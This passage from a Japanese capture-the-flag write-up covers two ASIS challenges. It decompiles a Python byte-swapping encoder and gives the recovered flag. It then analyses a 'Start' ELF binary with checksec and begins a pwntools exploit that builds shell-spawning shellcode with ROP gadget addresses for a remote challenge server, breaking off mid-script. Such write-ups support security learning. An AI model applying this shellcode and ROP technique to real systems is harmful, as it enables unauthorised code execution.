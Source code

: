 `05.bin` と `06.bin` は Python のバイトコードのようでした。

それぞれデコンパイルすると `05.bin` は PyInstaller のローダ、`06.bin` は以下のような内容でした。

```python
# Embedded file name: reverse_1.1.py
from sys import argv

def encode(data):
    res = ''
    for b in data:
        res += chr((ord(b) & 15) << 4 | (ord(b) & 240) >> 4)

    return res


if len(argv) < 2:
    print 'Oops, do you know the usage?!'
else:
    try:
        data = open(argv[1], 'r').read()
        f = open('flag.enc', 'w')
        f.write(encode(data))
        f.close()
        print 'your encoded file is ready :P'
    except:
        print 'huh?!, what do you mean by this arg?'
```

`python2 06.pyc_dis 25.bin` でフラグが得られました。

```
ASIS{20a87eb1e30361e19ef48940f9573fe3}
```

## [Pwning/Warm-up 89] Start

x86_64 な ELF ファイルが与えられます。

```
$ file ./Start_7712e67a188d9690eecbd0c937dfe77dd209f254
./Start_7712e67a188d9690eecbd0c937dfe77dd209f254: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1027ea7f426946811b9ba65a666db93a2b5bffac, stripped
$ checksec --file ./Start_7712e67a188d9690eecbd0c937dfe77dd209f254
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

でした。read で bss にシェルコードを置いて実行しましょう。

```python
import time
from pwn import *

context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())

addr_read = 0x400400
addr_bss = 0x601038
addr_pop_rdi = 0x4005c3 # 0x004005c3: pop rdi ; ret  ;  (1 found)
addr_pop_rsi_r15 = 0x4005c1 # 0x004005c1: pop rsi ; pop r15 ; ret  ;  (1 found)

s = remote('139.59.114.220', 10001)

```